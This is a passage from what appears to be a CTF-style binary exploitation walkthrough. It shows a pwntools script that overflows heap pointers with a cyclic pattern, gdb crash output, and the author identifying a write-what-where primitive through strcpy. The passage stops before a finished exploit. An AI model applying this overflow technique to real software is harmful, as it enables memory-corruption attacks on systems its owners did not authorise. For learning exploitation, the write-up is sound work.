 ```
>>> 0x804c480 - 0x804c3a8
216
```

Suspicious that we can overflow the two pointers with `A`s, let's throw data to see if we can control those pointers.

```python
# make-pwnmsg.py
from pwn import *

with open('pwn.msg', 'w') as f:
    f.write('{}|{}\n'.format('a'*4, cyclic(216)))
    f.write('{}|{}\n'.format('b'*4, 'B'*10))
    f.write('{}|{}\n'.format('b'*4, 'C'*10))
```

Executing the payload the same again in gdb.

```
[-------------------------------------REGISTERS-------------------------------------]
*EAX  0x62626262 ('bbbb')
*EBX  0x804c170 <-- 'bbbb'
*ECX  0x804c170 <-- 'bbbb'
*EDX  0x63616164 ('daac')
*EDI  0x0
*ESI  0xffffc9d0 <-- 1
*EBP  0xffffca68 <-- 0
*ESP  0xffffc83c --> 0x8048cd0 (main+539) <-- mov    eax, dword ptr [ebp - 0x4c]
*EIP  0xf7e95d82 <-- mov    dword ptr [edx], eax
[---------------------------------------CODE----------------------------------------]
 => 0xf7e95d82    mov    dword ptr [edx], eax
[-------------------------------------BACKTRACE-------------------------------------]
>  f 0 f7e95d82
   f 1  8048cd0 main+539
   f 2 f7e23a83 __libc_start_main+243
   f 3  8048741 _start+33
Program received signal SIGSEGV
```

Boom! Gotta love seeing `SIGSEGV`, eh? Our crashing instruction is `mov [edx], eax`.

Looks like we are overwriting the data in address `daac` (edx - from our cyclic function) with `bbbb` (eax - our second message). This is effectively a write-what-where condition, where we can write 4 bytes of whatever, wherever we want.

Looking at `0x804cd0` (our backtrace at frame `1`), we see that we are in a strcpy. Set breakpoint there and restart:

```
pwn> bp 0x8048ccb

[---------------------------------------CODE----------------------------------------]
=> 0x8048ccb <main+534>    call   0x8048630 <strcpy@plt>
    dest:      0x63616164 ('daac')
    src:       0x804c170 <-- 'bbbb'
```
